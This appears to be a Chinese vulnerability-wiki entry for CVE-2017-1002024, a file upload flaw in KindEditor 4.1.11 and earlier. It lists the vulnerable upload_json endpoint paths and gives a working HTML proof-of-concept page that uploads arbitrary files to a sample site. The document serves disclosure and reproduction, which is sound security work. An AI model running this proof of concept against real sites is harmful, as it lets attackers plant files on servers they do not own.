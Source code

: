 （CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

> json文件地址

    /asp/upload_json.asp

    /asp.net/upload_json.ashx

    /jsp/upload_json.jsp

    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file

    kindeditor/asp.net/upload_json.ashx?dir=file

    kindeditor/jsp/upload_json.jsp?dir=file

    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-1002024)Kindeditor<=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
